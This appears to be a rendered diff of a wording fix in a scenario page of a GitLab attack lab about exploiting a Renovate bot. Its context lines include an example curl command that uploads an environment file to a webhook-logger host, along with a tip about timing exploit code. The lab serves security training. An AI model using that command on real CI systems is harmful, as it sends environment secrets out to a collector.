

Before and after one commit to sploutchy/gitlab-attack-lab, a Markdown page: lab-config/scenarios/scenario-03-renovate-bot-exploitation.md, the part around the change. Rendered like a GitHub page.

Commit message:
Fix wording: invoking -> inviting the bot

```diff
--- a/lab-config/scenarios/scenario-03-renovate-bot-exploitation.md
+++ b/lab-config/scenarios/scenario-03-renovate-bot-exploitation.md
@@ -69,4 +69,4 @@ Other helpful commands:
 
 Example curl command: `curl -k -sSf -X POST -F "files=@$ENV_FILE" http://webhook-logger:8084`
 
-⚠️ **Note:** Be careful about directly invoking the bot to create MRs - it could create the MR before you've updated your exploit code!
+⚠️ **Note:** Be careful about directly inviting the bot to create MRs - it could create the MR before you've updated your exploit code!
```
